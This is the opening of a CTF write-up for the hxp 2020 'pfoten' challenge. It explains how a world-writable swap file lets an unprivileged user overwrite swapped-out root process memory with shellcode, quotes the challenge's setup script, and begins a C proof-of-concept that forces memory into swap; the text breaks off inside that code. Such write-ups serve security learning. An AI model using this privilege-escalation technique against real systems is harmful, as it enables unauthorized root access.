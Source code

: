 ```yaml
---
layout: post
title:  "hxp CTF 2020 pfoten"
date:   2020-12-21 00:00:00 +0000
categories: jekyll update
---
```


## 0x00 Overview

Last weekend I have played hxp 2020 as r3kapig. The challenges are very good. I have solved 3 challenges: `Secure Program Config`, `still-printf` and `pfoten`. Among these challenges, I think `pfoten` is quite worthy to do a full write-up. The challenge creates a file as *swap space*, so that some of the memory will be putted into this file when physical memory is not enough and will be then fetched from this file when being used again. The problem is this file is writable by any user. Therefore, when privileged memory like code of a root process is putted into this swap space, we can actually tamper it to our shellcode, so when it is executed again, we can execute arbitrary code in root privilege.

## 0x01 Vulnerability

Reading `rcS` file, we can see following code, which is related to the challenge.

 ```bash
dd if=/dev/zero bs=1M count=10 of=/swap status=none
# create a 10M file /swap with content zeros

losetup /dev/loop0 /swap
# https://linux.die.net/man/8/losetup
# set /swap as loop device /dev/loop0
# in order to use /swap as swap space

mkswap /dev/loop0 >/dev/null
swapon /dev/loop0 >/dev/null
# https://man7.org/linux/man-pages/man8/mkswap.8.html
# set /dev/loop0 as *swap space*
# so file /swap is *swap space* now
 ```

However, file `/swap` is writable by any user.

```
-rw-rw-rw-    1 0        0         10485760 Dec 21 08:10 swap
```

## 0x02 Proof of Concept

In order to prove my idea, I have written following PoC to see what will be putted into `/swap` file.

```c
#include <stdio.h>
#include <memory.h>
#include <stdlib.h>
#include <sys/mman.h>


int main(int argc, char const *argv[])
{
	for (int i = 0; ; ++i)
	{
		char* buffer = mmap(NULL, 1024*1024, PROT_READ | PROT_WRITE, MAP_SHARED | MAP_ANONYMOUS, -1, 0);
		memset(buffer, 'A', 1024*1024);
		printf("%d\n", i);
```
